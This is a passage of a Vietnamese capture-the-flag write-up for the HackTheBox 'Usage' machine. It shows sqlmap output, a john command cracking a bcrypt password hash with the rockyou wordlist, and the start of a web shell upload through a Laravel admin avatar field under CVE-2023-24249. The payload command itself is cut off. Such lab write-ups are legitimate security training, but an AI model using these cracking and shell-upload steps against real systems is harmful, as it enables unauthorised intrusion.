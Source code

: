 ```python
[00:12:36] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 20 times
[00:12:36] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/usage.htb'
```

### john

Copy hash này ra file và sử dụng **john** để crack password

```python
┌──(kali㉿kali)-[~/HTB-Usage]
└─$ sudo john -w=/usr/share/wordlists/rockyou.txt hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********        (?)     
1g 0:00:00:16 DONE (2024-05-07 00:17) 0.06112g/s 99.02p/s 99.02c/s 99.02C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Shell upload

Thử login vào admin panel

![six](/assets/img/2024-05-03-HTB-Usage/6.jpg)

Vì đang có quyền admin rồi nên tôi sẽ tìm xem có chỗ nào để upload shell lên đây được không. 

Ở trong account setting, tôi tìm thấy phần upload avatar. Tìm kiếm các lỗ hổng upload trên admin panel của laravel 1.8.17, tôi tìm thấy [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/)

Tôi sẽ thêm payload vào một ảnh bất kỳ nào đó.

```python
┌──(kali㉿kali)-[~/Downloads]
└─$  dp.jpg 
    1 image files updated
```
